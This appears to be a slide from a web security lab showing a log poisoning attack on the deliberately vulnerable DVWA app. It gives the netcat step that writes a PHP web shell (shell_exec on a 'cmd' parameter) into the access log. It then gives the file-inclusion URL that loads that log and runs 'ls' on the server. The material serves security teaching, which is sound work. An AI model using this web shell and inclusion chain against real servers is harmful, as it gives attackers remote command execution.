

# Log poisoning
$ nc 127.0.0.1 42001
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>’;?>

$ http://127.0.0.1:42001/vulnerabilities/fi/?page=/var/log/dvwa/access.log&cmd=ls
(please check log file path)